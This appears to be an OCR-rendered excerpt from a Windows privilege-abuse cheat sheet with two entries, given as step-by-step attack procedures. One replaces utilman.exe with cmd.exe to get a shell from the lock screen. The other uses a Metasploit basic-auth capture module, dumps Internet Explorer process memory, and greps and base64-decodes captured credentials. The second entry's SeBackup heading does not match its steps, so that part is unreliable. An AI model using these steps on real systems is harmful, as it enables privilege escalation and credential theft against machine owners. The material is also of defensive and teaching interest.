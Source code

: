 <a name="abusing-services-via-serestore"></a>
# Abusing Services via SeRestore

Domain: No

Local Admin: Yes

OS: Windows

Type: Abuse Privilege

Methods:

1\. Launch PowerShell/ISE with the SeRestore privilege present.

2\. Enable the privilege with Enable-SeRestorePrivilege).

3\. Rename utilman.exe to utilman.old

4\. Rename cmd.exe to utilman.exe

5\. Lock the console and press Win+U

<a name="abuse-via-sebackup"></a>
# Abuse via SeBackup

Domain: No

Local Admin: Yes

OS: Windows

Type: Abuse Privilege

Methods:

1\.

In Metasploit (msf \> prompt) type: use
auxiliary/server/capture/http_basic

In Metasploit (msf \> prompt) type: set uripath x

In Metasploit (msf \> prompt) type: run

2\.

In taskmgr and right-click on the "iexplore.exe" in the "Image Name"
column

and select "Create Dump File" from the popup menu.

3\.

strings /root/Desktop/iexplore.DMP \| grep \"Authorization: Basic\"

Select the Copy the Base64 encoded string.

In command prompt type: echo -ne \[Base64 String\] \| base64 -d
